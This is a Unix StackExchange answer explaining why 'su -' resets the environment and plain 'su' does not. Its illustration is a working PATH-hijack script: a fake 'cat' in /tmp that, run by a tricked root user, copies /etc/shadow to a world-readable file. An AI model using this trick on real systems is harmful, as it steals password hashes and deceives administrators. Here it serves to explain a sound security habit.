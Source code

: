 
`su -` invokes a login shell after switching the user. A login shell resets most environment variables, providing a clean base.

`su` just switches the user, providing a normal shell with an environment nearly the same as with the old user.

Imagine, you're a software developer with normal user access to a machine and your ignorant admin just won't give you root access. Let's (hopefully) trick him.

```
$ mkdir /tmp/evil_bin
$ vi /tmp/evil_bin/cat
#!/bin/bash
test $UID != 0 && { echo "/bin/cat: Permission denied!"; exit 1; }
/bin/cat /etc/shadow &>/tmp/shadow_copy
/bin/cat "$@"
exit 0
```

```
$ chmod +x /tmp/evil_bin/cat
$ PATH="/tmp/evil_bin:$PATH"
```

Now, you ask your admin why you can't cat the dummy file in your home folder, it just won't work!

```
$ ls -l /home/you/dummy_file
-rw-r--r-- 1 you wheel 41 2011-02-07 13:00 dummy_file
$ cat /home/you/dummy_file
/bin/cat: Permission denied!
```

If your admin isn't that smart or just a bit lazy, he might come to your desk and try with his super-user powers:

```
$ su
Password: ...
# cat /home/you/dummy_file
Some important dummy stuff in that file.
# exit
```

Wow! Thanks, super admin!

```
$ ls -l /tmp/shadow_copy
-rw-r--r-- 1 root root 1093 2011-02-07 13:02 /tmp/shadow_copy
```

He, he.

You maybe noticed that the corrupted $PATH variable was not reset. This wouldn't have happened, if the admin invoked su - instead.


https://unix.stackexchange.com/questions/7013/why-do-we-use-su-and-not-just-su/7021#7021
